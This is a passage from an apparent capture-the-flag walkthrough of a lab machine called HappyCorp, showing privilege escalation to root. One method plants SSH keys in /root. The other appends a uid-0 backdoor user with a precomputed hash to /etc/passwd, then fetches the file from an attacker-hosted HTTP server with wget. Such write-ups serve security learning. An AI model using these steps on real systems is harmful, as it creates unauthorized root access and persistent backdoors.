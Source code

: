 Finally, I copied the *.ssh* folder into the root directory.

```shell
cp -r .ssh /root/
```

Now, I could log into the system as root user:

```shell
ssh root@192.168.1.11
```

![](https://cdn.ziomsec.com/happycorp/22.webp)

### Exploitation - Creating A New User

For this method, I created a new user on my system with a *uid* **0** and added the user to the */etc/passwd* file of the target.

To perform this attack, I copied the */etc/passwd* file from the victim's system onto my own through the mounted directory.

```shell
cd rick
cp /etc/passwd /root/ctf/happycorp
```

![](https://cdn.ziomsec.com/happycorp/23.webp)

I then created a new user with username **nemesis** and password **bypass**.

```shell
useradd nemesis
openssl passwd -1 -salt mimir bypass
```
> `-1` indicates MD5 hash and the `-salt` option specifies the salt to use for the hash. In the above case, the salt is *mimir*.

![](https://cdn.ziomsec.com/happycorp/24.webp)

I then appended the following into the *passwd* file that I had copied.

```shell
echo 'nemesis:$1$mimir$mU/..cXck3dFQW1wl98mT:0:0:root:/root:/bin/bash' >> passwd
```

![](https://cdn.ziomsec.com/happycorp/25.webp)

I transferred the file back into the main system and moved it into the intended directory. 

For the file transfer, I started an **http** server on my local system:

```shell
python3 -m http.server 8080
```

Then. in the target machine, I downloaded the file:

```shell
wget http://ATTACKER:8080/passwd
```
